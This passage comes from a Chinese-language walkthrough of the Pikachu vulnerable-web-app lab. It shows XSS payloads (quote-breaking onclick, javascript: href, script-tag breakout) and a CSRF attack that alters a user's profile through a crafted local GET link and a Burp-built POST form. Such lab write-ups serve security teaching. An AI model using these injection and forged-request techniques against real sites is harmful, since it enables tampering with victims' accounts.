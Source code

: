 可以使用单引号构造payload：`\#' onclick='alert(/xss/)`

<img src="https://blog-1304194110.cos.ap-nanjing.myqcloud.com/image-20220623095554844.png" alt="image-20220623095554844"  />

#### 2.9 xss之href输出

在a标签的href属性里面,可以使用javascript协议来执行js，可以尝试使用伪协议绕过。

payload:`javascript:alert(/xss/)`

<img src="https://blog-1304194110.cos.ap-nanjing.myqcloud.com/image-20220623100806007.png" alt="image-20220623100806007"  />

#### 2.10 xss之js输出

payload:`</script><script>alert(/xss/)</script>`

<img src="https://blog-1304194110.cos.ap-nanjing.myqcloud.com/image-20220623105335832.png" alt="image-20220623105335832"  />

### 三. CSRF

#### 3.1 CSRF(get)

get 型 csrf，构造虚假get请求诱导受害者点击即可，先登录vince账户，构造get请求，随后诱导受害者在登录账户的情况下点击链接。

http://127.0.0.1/pikachu-master/vul/csrf/csrfget/csrf_get_edit.phpsex=boy&phonenum=18626545453&add=chain&email=vince8888%40pikachu.com&submit=submit

![image-20220516150155847](https://blog-1304194110.cos.ap-nanjing.myqcloud.com/image-20220516150155847.png)

![image-20220516150558928](https://blog-1304194110.cos.ap-nanjing.myqcloud.com/image-20220516150558928.png)

![image-20220516150641296](https://blog-1304194110.cos.ap-nanjing.myqcloud.com/image-20220516150641296.png)

![image-20220516160214751](https://blog-1304194110.cos.ap-nanjing.myqcloud.com/image-20220516160214751.png)

allen个人信息已被更改

#### 3.2 CSRF(post)

post'型csrf需要构造表单诱导用户提交，使用burp构造站点诱导用户提交表单

![image-20220516162038227](https://blog-1304194110.cos.ap-nanjing.myqcloud.com/image-20220516162038227.png)

使用burp（专业版可以使用次功能）

![image-20220516162120180](https://blog-1304194110.cos.ap-nanjing.myqcloud.com/image-20220516162120180.png)

![](https://blog-1304194110.cos.ap-nanjing.myqcloud.com/image-20220516162437519.png)

![image-20220516162527456](https://blog-1304194110.cos.ap-nanjing.myqcloud.com/image-20220516162527456.png)

#### 3.3 CSRF Token
